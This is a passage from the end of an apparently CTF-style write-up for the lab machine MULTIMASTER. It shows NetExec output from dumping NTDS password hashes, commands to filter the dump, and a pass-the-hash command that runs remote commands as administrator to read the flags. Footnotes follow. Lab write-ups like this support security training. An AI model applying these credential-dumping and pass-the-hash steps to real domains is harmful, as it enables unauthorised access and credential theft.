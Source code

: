 SMB         10.10.10.179    445    MULTIMASTER      [+] Dumped 1 NTDS hashes to /home/kali/.nxc/logs/MULTIMASTER_10.10.10.179_2024-04-01_171531.ntds of which 1 were added to the database
SMB         10.10.10.179    445    MULTIMASTER      [*] To extract only enabled accounts from the output file, run the following command:
SMB         10.10.10.179    445    MULTIMASTER      [*] cat /home/kali/.nxc/logs/MULTIMASTER_10.10.10.179_2024-04-01_171531.ntds | grep -iv disabled | cut -d ':' -f1
SMB         10.10.10.179    445    MULTIMASTER      [*] grep -iv disabled /home/kali/.nxc/logs/MULTIMASTER_10.10.10.179_2024-04-01_171531.ntds | cut -d ':' -f1

# snatching the flags!
$ nxc smb 10.10.10.179 -u administrator -H admin_hash -x 'type c:\users\alcibiades\desktop\user.txt;type c:\users\administrator\desktop\root.txt'
SMB         10.10.10.179    445    MULTIMASTER      [*] Windows Server 2016 Standard 14393 x64 (name:MULTIMASTER) (domain:MEGACORP.LOCAL) (signing:True) (SMBv1:True)
SMB         10.10.10.179    445    MULTIMASTER      [+] MEGACORP.LOCAL\administrator:******** (Pwn3d!)
SMB         10.10.10.179    445    MULTIMASTER      [+] Executed command via wmiexec
SMB         10.10.10.179    445    MULTIMASTER      c:\users\alcibiades\desktop\user.txt
SMB         10.10.10.179    445    MULTIMASTER
SMB         10.10.10.179    445    MULTIMASTER
SMB         10.10.10.179    445    MULTIMASTER      8fd&#x3C;REDACTED>22b
SMB         10.10.10.179    445    MULTIMASTER      The system cannot find the file specified.
SMB         10.10.10.179    445    MULTIMASTER      Error occurred while processing: type.
SMB         10.10.10.179    445    MULTIMASTER
SMB         10.10.10.179    445    MULTIMASTER      c:\users\administrator\desktop\root.txt
SMB         10.10.10.179    445    MULTIMASTER
SMB         10.10.10.179    445    MULTIMASTER
SMB         10.10.10.179    445    MULTIMASTER      95c&#x3C;REDACTED>3fb
</code></pre>

[^1]: Elevation of Privileges

[^2]: Living Off The Land

[^3]: Elevation of Privileges

[^4]: Proof of Concept

[^5]: Living Off The Land

[^6]: Elevation of Privileges

[^7]: Living Off The Land

[^8]: Elevation of Privileges

[^9]: Living Off The Land
